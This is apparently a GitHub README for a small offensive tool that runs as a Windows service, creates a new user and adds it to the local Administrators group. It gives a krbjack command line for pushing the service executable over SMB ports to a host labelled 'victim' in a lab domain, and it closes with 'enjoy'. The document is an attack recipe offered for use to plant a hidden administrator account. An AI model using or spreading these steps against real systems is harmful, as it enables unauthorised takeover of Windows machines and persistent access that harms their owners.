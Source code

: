 # svcadduserAdmin
Simple service that creates a new user and adds it in localgroup Administrators


I used it with https://github.com/almandin/krbjack

usage:

![image](https://github.com/foxlox/svcadduserAdmin/assets/28823598/ba3fb701-4446-4a6d-9dae-d3ab5cc3f7f7)


edit the source file in the picture at line 57 and replace:
str(uuid etc) with 'service1'


then run
python3 -m krbjack --target-name winattacker --domain bluelab.local --dc-ip 172.27.18.19 --ports 139,445 --executable /opt/service1.exe

winattacker: victim


enjoy

